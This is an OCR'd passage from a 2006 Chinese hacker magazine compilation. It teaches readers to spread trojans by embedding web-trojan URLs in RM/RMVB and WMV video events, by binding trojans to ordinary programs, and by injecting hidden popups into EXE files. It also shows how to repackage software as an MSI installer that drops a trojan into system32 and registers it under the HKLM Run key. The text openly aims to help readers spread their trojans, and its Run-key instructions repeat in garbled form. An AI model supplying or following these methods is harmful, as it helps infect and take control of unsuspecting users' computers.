# 非安全黑客手册合订本2006年③④季第二部分

---

# 四、利用视频传播

首先我们准备一段视频，大家注意需要是 .rm 格式或者 .rmvb 格式的。我们进入 RealMedia Editor 的安装目录，然后点击 rmleditgui，便打开了软件主界面。这时，选择我们要修改的视频文件，并选择“工具”，选择“合并事件”。这个示例要求使用“00.5.0.00.8.0 http://pop.512j.com/coon.htm”，意思是说，这是一个可用事件，在第 5 秒到第 8 秒的时段打开后面的网页。好了，这个时候打开这个视频文件的时候，也会打开我们事先写好的网站。



讲完了 rm 格式的，我们再讲 wma、wmv、asf 的格式是如何实现的。首先我们打开 Windows Media Editor，然后选择文件，点击下面的“脚本命令”，然后添加。这时，在按钮中，大家需要打开一项，然后依次选择 URL，时间“00:00:00”，代表的是时：分：秒：帧，后面的地址就是联网需要的地址，例如 http://pop.512j.com/coon.htm，如图 10。然后点击确定，点击“文件”，选择“另存并索引”。这样可以使 wma、wmv、asf 格式的影片也弹出网页了。



# 五、利用捆绑传播

很多时候我们打开一个软件却无缘无故地弹出另外的一个程序，其实这里就是使用了软件捆绑技术。网络上的捆绑器有很多，在这里我推荐一款，制作“黑鹰基地”全套捆绑器。首先我们选择第一个文件可以是任意的，然后选择第二个文件，这里就用我们的木马，目标文件就是我们需要生成的文件，可以随便写的，如图 11。



## 六、利用 exe 广告注入传播

这是一种较简单的方法，不过隐藏性还是很不错的。首先打开 Fexe 广告注入器，在网页里面写你需要打开的网页木马地址，例如：http://pop.512j.com/coon.htm，然后选择需要注入的文件和图标，在最下面选择“隐藏弹出 IE 窗口”，这样更好地隐蔽自己。设置好它的网页木马后，最后点击“开始注入”，如图 13。



这种技术当然打开的时间段依赖网站地址，打开网页木马了，设置好了网页木马然后就可以去传播这个网页木马了。传播木马的方式很多，相信大家看了这篇文章后会更好地传播自己的木马了。

# 总结

这几种技术，其实都非常简单，大家操作起来也没有什么难度，主要是一个思路的问题。首先我们需要配置一个网页木马，这个不能出错，因为后面的都与网页木马有关系，所以我们一定要掌握。配置好了网页木马然后就可以去传播这个网页木马了。传播木马的方式很多，相信大家看了这篇文章后会更好地传播自己的木马了。

# 编辑点评

纸上谈的这类 pop 木马传播的文章，也只是给大家一个思路而言，能利用的方法其实很多。比较推荐大众化做法，从本身方面去针对一个木马进行投入。几种方式只是抛砖引玉，然后将木马放到网上，加入到网站中，可以把网页木马推广出去。这个字里行间都充满了关于网页木马传播的内容，但不提倡恶意传播。



## 闪鸡接龙

# MSI 也疯狂

## 菜鸟入门到创新

从本文你可以学到：

- 制作 MSI 安装包
- 利用 MSI 来捆绑木马

与软件捆绑是我们传播小马的一个有效途径，现在网上也存在很多的捆绑器，能将木马与一个正常的 exe 捆绑在一起。但一种攻击技术一旦公开，它的防御方法也就随之而来，所以现在已经出现了很多检测软件是否被捆绑的程序，而且网络的安全意识也有很大的提高，在一些小站点下载 exe 程序时，时常会先看是否被捆绑了木马。那你有没有一种更好的捆绑方法呢？

今天笔者就为大家提供一个新的思路，先来说捆绑，让我们来用 msi 捆绑。

### 小知识：什么是 msi

msi 文件是 Windows Installer 的数据包。它实际上是一个数据库，记录着安装一个程序所需要的全部信息和各个安装步骤等，例如程序所需的文件和目录、MSI 文件所遵循的组织文件与功能关系等。具体来说，它不仅包含有关安装过程需要的信息，如此类文件的路径、系统环境、安装选项和规则等，而且还包括文件、注册表项、快捷方式和控制面板项等各种信息。采用 MSI 安装时，安装程序可以将所有操作都统一打包，以便把安装后的脚本编入系统中，然后可随时进行修复、卸载和升级。

这是一种可以安全地管理应用软件的方式，它的安装设计是以数据库为核心，安装记录封装在 .msi 格式的容器中，能够顺利在多个系统里运作；从而实现“在安装、卸载、修改、修复时都非常方便”。

先回忆一下，如果你下载了一个 .msi 的安装包，你会怀疑它的安全性吗？在大多数人心里，msi 是很安全的。首先，msi 无法直接捆绑木马，不能直接修改，现在也从没有过通过 msi 捆绑病毒的先例。其次，msi 一般都是比较正规的程序在使用，更容易让人信任。

我们要在一个 msi 里捆绑一个木马并不是太难。msi 不能直接修改或捆绑，要在一个程序里捆绑一个木马，我们就只能修改这个程序所对应的文件，得到它的安装过程，比如更改了哪些注册表，哪个文件放到哪个位置，然后插入木马程序，重新伪装一个 msi 安装包。

### 一、取得正常文件

这里所谓的正常文件，就是要在用户电脑里真正安装的程序。这个程序的取得方法有很多，为了建立 msi 的方便，建议直接采用程序的绿色版，我们可以到网上找来。

### 二、制作 msi 安装包

文件准备好了就要开始打包了，这里推荐一款 msi 制作软件——Advanced Installer。打开 Advanced Installer，新建工程，选择“专业版”，打开了“新建工程向导”，点击“下一步”，进入图 2 的界面，在这里输入程序名和组织名。这两个名称可以通过查看木马宝贝 iparmor.exe 的属性得名。点“下一步”进入程序选择项界面，点击“浏览”选择你刚才准备好的正常文件的路径，这些文件就会被自动复制到 msi 中，图 3；再下一步就进入了快捷方式设计页面，我们可以在这里为正常的程序在桌面或开始菜单创建快捷方式，当然要注意不要为木马也创建一个快捷方式，如图 4。

以后的几个设置不需要更改，没有什么意义，直到最后一个页面，这里要记得去掉“现在构建工程”前面的勾，然后点击完成。这时候就是程序的主界面了，如图 5 所示。

在图中你可以看到我们在向导里输入的信息，你当然也可以在这里修改它们，通过程序里的属性栏将信息完善。看到左边面板了吗？我们选择“文件和文件夹”，在“应用程序文件夹”中就可以看到我们添加的程序了，如图 6。












# 肉鸡擅控

我们可以在这里修改每一个文件的安装路径，本文中木马尾包的文件就放在程序文件夹里就可以了，我们要修改的只是“mm.exe”的位置。比如我们要把木马放到对方的“system32”目录中，只要展开“Windows”卷，在“Windows”上点击右键，新建一个名为“system32”的文件夹，然后将“mm.exe”拖到这个文件夹即可，如图 7。这样安装的时候我们的木马就会被复制到对方的“system32”目录，当对方启动的时候就会启动我们的木马。我们可以继续在注册表那里把木马添加进自启动项目。

接着在“运行”上点击右键，选择“新建”操作，打开如下图所示的窗口，在“系统启动”下方将“提示”项填写为启动项的名称，类型默认的字符型，然后选择“文件”按钮，从打开的窗口中选择我们的木马文件，如图 10。这样在安装的时候我们的木马会随着对方系统一起启动。如果你对服务启动项目感兴趣，那么可以选择服务启动（如果你的木马支持服务启动的话）。Msi 可以自动为我们添加系统级自启动，让我们更方便地管理程序。在程序左边选择“注册表”面板，这时就可以看到一个简单的注册表结构。我们只要展开“HKEY_LOCAL_MACHINE\SOFTWARE”，在其下依次新建项“Microsoft\Windows\Current Version\Run”，如图 8。然后在“Run”项上点击右键，选择“新建”操作，打开如图 9 所示的窗口，选择所要启动项名称、类型和默认的字符型，然后点击“文件”按钮，从打开的窗口中选择我们的木马文件，如图 10，这样在安装的时候我们的木马会随着对方系统一起启动。木马克隆的文件夹里有一个“注册.reg”，是注册信息，你可以将其里边的内容添加到此，这样程序安装好就是注册版了。这样就可以将我们的木马做成带有自动启动机制的程序，方便我们在系统中隐藏。

然后在“Run”项上点击右键选择“新建”操作，打开如图 9 所示的窗口，选择所要启动项名称，类型默认的字符型，然后点击“文件”按钮，从打开的窗口中选择我们的木马文件，如图 10，这样在安装的时候我们的木马会随着对方系统一起启动。

当然你也可以选择其他更隐蔽的位置。下一步就是木马的启动了，我们可以将木马添加到注册表的启动项目。msi 可以很方便地把某些程序设置为自动运行，在程序左边选择“注册表”面板，这时就可以看到一个简单的注册表结构。我们只要展开“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\Current Version\Run”，如图 8。然后在“Run”项上点击右键选择“新建”操作，打开如图 9 所示的窗口，选择所要启动项名称，类型默认的字符型，然后点击“文件”按钮，从打开的窗口中选择我们的木马文件，如图 10，这样在安装的时候我们的木马会随着对方系统一起启动。





